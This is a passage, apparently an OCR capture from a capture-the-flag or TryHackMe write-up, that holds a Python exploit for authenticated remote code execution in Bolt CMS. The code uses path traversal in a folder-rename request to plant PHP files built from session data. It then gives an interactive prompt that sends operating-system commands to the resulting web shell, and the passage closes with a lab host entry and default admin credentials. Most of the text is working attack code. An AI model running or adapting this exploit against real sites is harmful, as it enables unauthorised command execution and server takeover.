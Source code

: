 ```


print((colored("[+] SESSION INJECTION ","green")))
for all_tables in tables: 

        f= open("session.txt","a+")
        f.write(all_tables.text+"\n")
        f.close()
        num_lines = sum(1 for line in open('session.txt'))

        renamePostData = {
                "namespace": "root",
                "parent": "/app/cache/.sessions",
                "oldname": all_tables.text,
                "newname": "../../../public/files/test{}.php".format(num_lines),
                "token": csrf
           }
        rename = request.post(url+"/async/folder/rename", renamePostData)




        try:
                url1 = url+'/files/test{}.php?test=ls%20-la'.format(num_lines)

                rev = requests.get(url1).text
                r1 = re.findall('php',rev)

                r2 = r1[0]
                if r2 == "php" : 
                        fileINJ = "test{}".format(num_lines)

                        print((colored("[+] FOUND  : "+fileINJ,"green")))

        except IndexError:
                print((colored("[-] Not found.","red")))

new_name = 0
while new_name != 'quit':
        inputs = input(colored("Enter OS command , for exit 'quit' : ","green","on_red"))
        if inputs == "quit" :
                exit()
        else:
                a = requests.get(url+"/files/{}.php?test={}".format(fileINJ,inputs))
                aa = a.text
                r11 = re.findall('...displayname";s:..:"([\w\s\W]+)',aa)


                print((r11)[0])


go to 

┌──(root㉿kali)-[/home/kali/bolt/Boltcms-Auth-rce-py]
└─# echo "10.10.138.76 erit.thm" >> /etc/hosts  

http://erit.thm/bolt

admin:password


```
